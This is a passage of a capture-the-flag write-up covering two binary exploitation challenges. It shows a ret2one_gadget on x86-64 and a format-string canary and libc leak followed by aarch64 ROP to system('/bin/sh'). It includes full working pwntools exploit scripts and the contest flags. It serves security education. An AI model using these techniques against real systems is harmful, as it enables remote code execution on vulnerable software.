    printf("flag.txt not found");
  }
  else {
    r = fread(dest,1,39,fp);
    *(undefined *)((long)dest + (long)(int)r) = 0;
  }
  return;
}

```

it reads a flag to destination at RDI, however the binary doesn't provide us have a `pop rdi;` gadget.


I spent quite a lot of wasteful time figuring out how to leak the flag to stdout including pivoting to `song`.  \
\
this seemingly win function turns out to be a decoy (?) cause after the competition had ended, I don't see anyone make use of this function


### Exploitation

it's actually quite simple, we're going to do the classic ret2one\_gadget.

first notice that `main()` doesn't have any local variable, this means its stack frame consist only of RBP and return address of RIP.&#x20;

our `help_me()` reads out input up to 0x64 and it is quite big of an overflow, to which is big enough to overwrite into `main()`'s stack frame.

<figure><figcaption></figcaption></figure>

so on the first round of overflow, we'll keep `help_me()`'s RIP unchanged, however we'll change `main()`'s RIP to calling `main()` again instead of exit. in the meantime, we'll abuse the printf to leak some stack and libc address.&#x20;


the reason we need stack leak is to preserve the RBP, this because upon calling `one_gadget` or `system`, they will have instructions that utilizes RBP offsets. so we wanna set it to  a relatively huge valid writeable address instead of 0x4141414141


```python
payload = flat({
    72: [
        0x040131f,          # read(0, song, 200)
        0x0,                
        elf.sym['main'], 
    ]
})
io.sendlineafter(b'be?!', payload)
io.sendlineafter(b'song?', b'%3$p|%11$p|')

io.recvuntil(b'0x')
libc.address = int(io.recvuntil(b'|', drop=True), 16) - 0x114887

io.recvuntil(b'0x')
stack = int(io.recvuntil(b'|', drop=True), 16)
```

since we're back on main, just overflow it again with preserving RBP on stack to `one_gadget`

```python
# 0x50a47, 0xebc81, 0xebc85, 0xebc88
payload = flat({
    64: [
        stack - 0x120,          # rbp of help_me
        libc.address + 0xebc81  # one_gadget
    ]
})
io.sendlineafter(b'be?!', payload)
```

running againts the remote server

<figure><figcaption></figcaption></figure>

Below is the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'gold.b01le.rs', 4008

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x401290
'''.format(**locals())
# break *0x4012f8
# break *0x040139d
# break *0x401383

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    payload = flat({
        72: [
            0x040131f,          # read(0, song, 200)
            0x0,                
            elf.sym['main'], 
        ]
    })
    io.sendlineafter(b'be?!', payload)
    io.sendlineafter(b'song?', b'%3$p|%11$p|')

    io.recvuntil(b'0x')
    libc.address = int(io.recvuntil(b'|', drop=True), 16) - 0x114887

    io.recvuntil(b'0x')
    stack = int(io.recvuntil(b'|', drop=True), 16)

    # 0x50a47, 0xebc81, 0xebc85, 0xebc88
    payload = flat({
        64: [
            stack - 0x120,          # rbp of help_me
            libc.address + 0xebc81  # one_gadget
        ]
    })
    io.sendlineafter(b'be?!', payload)

    log.success('stack: %#x', stack)
    log.success('libc base: %#x', libc.address) 
    io.interactive()

if __name__ == '__main__':
    exploit()
```



**Flag:** _bctf{dr1ving\_a\_n3w\_maser@t1\_d0wn\_@\_d3ad\_3nd\_str33t\_eb30c235cde76705}_


***

## arm-and-a-leg

### Description

> Ever needed to buy something that cost an ARM and a leg? Well, now you can!
>
> `nc arm-and-a-leg.gold.b01le.rs 1337`


my first aarch64 ROP solves :D


### Binary Analysis

given a binary, glibc and dockerfile. as the name suggest, it's an ARM binary, because my machine is x86, first thing I do is grab the libc and linker from Docker Image and patch the binary.

```bash
└──╼ [★]$ tree .
.
├── chal
├── chal_patched
├── Dockerfile
├── exploit.py
├── flag.txt
├── gadgets.txt
├── ld-linux-aarch64.so.1
├── libc.so.6
└── lib_gadgets.txt

└──╼ [★]$ file chal
chal: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=ac237637c81e388676baac60780e594c48a90541, for GNU/Linux 3.7.0, not stripped

└──╼ [★]$ pwn checksec chal
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

next we try to poke and decompile the binary

<figure><figcaption></figcaption></figure>

```c
undefined8 main(void)

{
  int iVar1;
  int choice;
  long local_8;
  
  local_8 = ___stack_chk_guard;
  setup(&__stack_chk_guard,0);
  iVar1 = puts("Hello! \nWelcome to ARMs and Legs, here for all of your literal and metaphorical need s!");
  print_menu(iVar1);
  __isoc99_scanf("%d",&choice);
  if (choice == 1) {
    iVar1 = puts("So, you\'d like to purchase an ARM...are you worthy enough to purchase such an appe ndage?");
    iVar1 = worthyness_tester(iVar1);
    if (iVar1 == 0) {
      get_address();
      feedback();
    }
    else {
      puts("Close, but no cigar. Maybe try a Leg?");
    }
  }
  else if (choice == 2) {
    iVar1 = puts("So, you\'d like to purchase a Leg...are you worthy enough to purchase such an appen dage?!");
    iVar1 = worthyness_tester(iVar1);
    if (iVar1 == 0) {
      get_address();
      feedback();
    }
    else {
      puts("Close, but no cigar. Maybe try an ARM?");
    }
  }
  if (local_8 - ___stack_chk_guard == 0) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail(&__stack_chk_guard,0,0,local_8 - ___stack_chk_guard);
}
```

though there's an option, whichever option we chose doesn't affect anything relevant, it eventually calls `worthyness_tester()` -> `get_address()` -> `feedback()` in order. so let's take a look at those functions

```c
bool worthyness_tester(void)

{
  bool c;
  int guess;
  int num;
  long local_8;
  
  local_8 = ___stack_chk_guard;
  puts("What number am I thinking of?");
  num = 0x539;
  __isoc99_scanf("%d",&guess);
  c = num != guess;
  if (!c) {
    printf("Wow, you may now purchase an appendage!");
  }
  if (local_8 - ___stack_chk_guard == 0) {
    return c;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail(&__stack_chk_guard,c,0,local_8 - ___stack_chk_guard);
}
```

well this does nothing, just sanity check againts a hardcoded value.

```c
void get_address(void)

{
  int iVar1;
  char acStack_30 [40];
  long local_8;
  
  local_8 = ___stack_chk_guard;
  printf("\tCould we have an address to ship said appendage? ",0);
  __isoc99_scanf("%34s",acStack_30);
  printf("\nThanks, we will ship to: ");
  printf(acStack_30);
  iVar1 = putchar(10);
  clear_buffer(iVar1);
  if (local_8 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - ___stack_chk_guard);
  }
  return;
}
```

apparently, this function's name corresponds to what it's for used in exploitation. this routine provides us with a printf vulnerability, we'll use this to get some info leaks.

```c
void feedback(void)

{
  char acStack_70 [104];
  long local_8;
  
  local_8 = ___stack_chk_guard;
  puts("Care to leave some feedback?!");
  fgets(acStack_70,256,_stdin);
  puts("Thanks!");
  if (local_8 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - ___stack_chk_guard);
  }
  return;
}
```

feedback provides us with a buffer overflow.&#x20;

### Exploitation

#### environment setup

first off, we because the binary is in a different architecture we need to install some tools to setup our environment so we can run the binary.

```bash
# qemu
sudo apt-get install qemu-user qemu-system 
# gdb
sudo apt-get install gdb-multiarch
# libraries
sudo apt-get install gcc-arm-linux-gnueabi
sudo apt-get install gcc-aarch64-linux-gnu
```

qemu is used to simulate the binary while gdb-multiarch add supports to wide range of architectures for us to debug.


heads up!

the setup below won't work and I ended up using `python exploit.py GDB` anyways, but it would be nice to document my thought process, the mistakes and what I ended up learning!


to properly debug in GDB, we gotta do a little bit more work than usual. if I run `python exploit.py GDB`, it will fail as I `CTRL ^ C`, it simply just disconnects.

<figure><figcaption></figcaption></figure>

to do this, we need two terminal panel.  we'll run the exploit script without GDB on one of the terminal, then search for the PID of the process and attach it manually to GDB using said PID on the other terminal as follows

<figure><figcaption></figcaption></figure>

and now `CTRL ^ C` will work and we can inspect the memory as we would normally

<figure><figcaption></figcaption></figure>

#### info leaks

the first thing I did is to fuzz for info leaks, primarily to get the offset to canary as we need it in order to successfully execute our buffer overflow.&#x20;

```python
def fuzz():
    context.log_level = 'warning'
    for idx in range(1, 30):
        io = initialize()

        io.sendline(b'1')
        io.sendlineafter(b'of?', str(1337).encode())
        io.sendlineafter(b'appendage?', f'%{idx}$p'.encode())
        io.recvuntil(b'to: ')
        log.warning(f"[{idx}] = {io.recvline().strip()}")

        io.close()
```

<figure><figcaption></figcaption></figure>

it seems either the 15th or 19th offset is our canary, lets clarify this within GDB.

<figure><figcaption></figcaption></figure>

what's happening here? why none of them match the canary? running `vmmap` will reveal something interesting.

<figure><figcaption></figcaption></figure>

apparently what we've been debugging this whole time is the qemu process and not the challenge binary.&#x20;

this is because qemu itself is a simulation, not a virtualization technology. comparing to the `vmmap` of `python exploit.py GDB`  we can see a difference&#x20;

<figure><figcaption></figcaption></figure>

`python exploit.py GDB` actually is the correct way as it debugs the simulation not the qemu process itself.

notice we have no libc or other memory region as we would normally see. this is because everything is simulated and no library is actually mounted to the binary which in itself is not running as a process.

this means in order we could run GDB's command, we would need to setup breakpoints early before actually running the binary as `CTRL ^ C` doesn't seem to work.

that said, we can finally verify our canary right ...?&#x20;

<figure><figcaption></figcaption></figure>

they're both are the canaries? but the previous fuzzing shows different results, is this part of the qemu?

fuzzing againts remote I found that the value at both offset are indeed should be different, so in the end I'll just use whichever that doesn't give me `***stack smashing detected***.`

<figure><figcaption></figcaption></figure>


it was offset-15th that works


next, we'll also need a libc leak, inspecting the stack right before printf we discover a libc address at offset 21st, just some bytes after our canary.

<figure><figcaption></figcaption></figure>

but how do we get the offset to libc? since `vmmap` displays inaccurate result.

<figure><figcaption></figcaption></figure>

this is why we need to extract the libc from the docker image, and thankfully the libc has symbols within it, so with pwntools we can simply do: &#x20;

```python
leak = int(io.recvline().strip(), 16)
libc.address = leak - 152 - libc.sym['__libc_start_main']
```

#### ROP-ing on ARM

this [writeup](https://blog.perfect.blue/ROPing-on-Aarch64) summarizes perfectly the instructions that can be utilized in ROP and how they're differ from x86.&#x20;

I suggest you to read it, but what's relevant here are these two on how to redirect execution:

* unlike x86, `ret` doesn't pop a return address from stack frame, instead it will call whatever on register `x30`
* `bl`/`blr <regs>` is another way to redirect execution, The x86 equivalent is `call`. Basically jumps to a subroutine and stores the return address in `x30`.

as for parameter calling conventions on registers, we can look up the [syscall table](https://syscalls.pages.dev) for ARM64. &#x20;

since we wanna call `system(/bin/sh)`, we need to set up `x0` to a pointer to `/bin/sh`

I wasn't able to chain and find a suitable gadget using the gadget within the binary, and I had to look at the libc gadgets and found this

```armasm
ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
```

it provides us control both for `x0` and `x30` with a controlled area i.e. the stack. the perfect gadget.&#x20;

looking back at `feedback()`, we know we have a buffer of 104 before canary, since the stack frame will be different, I will use the `De Brujin` sequence to determine the offset to control execution.

```python
offset = 104
payload = flat({
    offset: [
        canary,
        cyclic(60)
    ]
})
io.sendlineafter(b'?!', payload)
```

<figure><figcaption></figcaption></figure>

as we return from `feedback()` we didn't immediately overwrite it's return address, we continue back to `main()`

<figure><figcaption></figcaption></figure>

and ended up overwriting the canary at main.

<figure><figcaption></figcaption></figure>

let's fix our payload as follows

```python
offset = 104
payload = flat({
    offset: [
        canary,
        0x1, 
        0x2,
        0x3,
        canary,
        cyclic(20)
    ]
})
io.sendlineafter(b'?!', payload)
```

<figure><figcaption></figcaption></figure>

and as `main()` returns, `x30` is populated with `0x2` which is what is inside our payload, lets change it with our gadget.&#x20;

```python
offset = 104
payload = flat({
    offset: [
        canary,
        0x0, 
        libc.address + 0x69500, # ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
        0x0,
        canary,
        cyclic(40)
    ]
})
io.sendlineafter(b'?!', payload)
```

<figure><figcaption></figcaption></figure>

we can see that our `De Brujin` has populated `x30` and `x0`, let's find its offset.

<figure><figcaption></figcaption></figure>

and we get the offset relative to our cyclic(40), not from the start of our payload. adjusting our payload for the last time it would look like this:

```python
offset = 104
payload = flat({
    offset: [
        canary,
        0,
        libc.address + 0x69500, # ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
        0,
        canary,
    ]
})
payload += b'A' * 8
payload += p64(libc.sym['system'])  # x1 and x2 already NULL
payload += b'B' * 8
payload += p64(next(libc.search(b'/bin/sh\x00')))
```

running it againts server

<figure><figcaption></figcaption></figure>

Below is the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
ld = './ld-linux-aarch64.so.1'
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'arm-and-a-leg.gold.b01le.rs', 1337

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x0400a1c
'''.format(**locals())
# break *0x0400b58
# break *0x0400c0c

# =========================================================
#                         EXPLOITS
# =========================================================
# chal: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=ac237637c81e388676baac60780e594c48a90541, for GNU/Linux 3.7.0, not stripped
# Arch:     aarch64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def fuzz():
    context.log_level = 'warning'
    for idx in range(1, 50):
        io = initialize()

        io.sendline(b'1')
        io.sendlineafter(b'of?', str(1337).encode())
        io.sendlineafter(b'appendage?', f'%{idx}$p'.encode())
        io.recvuntil(b'to: ')
        log.warning(f"[{idx}] = {io.recvline().strip()}")

def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    io.sendline(b'1')
    io.sendlineafter(b'of?', str(1337).encode())
    io.sendlineafter(b'appendage?', b'%15$p||%21$p')
    io.recvuntil(b'to: 0x')
    canary = int(io.recvuntil(b'||', drop=True).strip(), 16)

    io.recvuntil(b'0x')
    leak = int(io.recvline().strip(), 16)
    libc.address = leak - 152 - libc.sym['__libc_start_main']

    offset = 104
    payload = flat({
        offset: [
            canary,
            0,
            libc.address + 0x69500, # ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
            0,
            canary,
        ]
    })
    payload += b'A' * 8
    payload += p64(libc.sym['system'])  # x1 and x2 already NULL
    payload += b'B' * 8
    payload += p64(next(libc.search(b'/bin/sh\x00')))

    io.sendlineafter(b'?!', payload)

    log.success('canary: %#x', canary)
    log.success('libc: %#x', libc.address)
    io.interactive()

if __name__ == '__main__':
    # fuzz()
    exploit()
```



**Flag:** _bctf{c0st\_y@@n\_ARM@nd\_a\_l3g!\_a1659d0e634100240e6}_


***
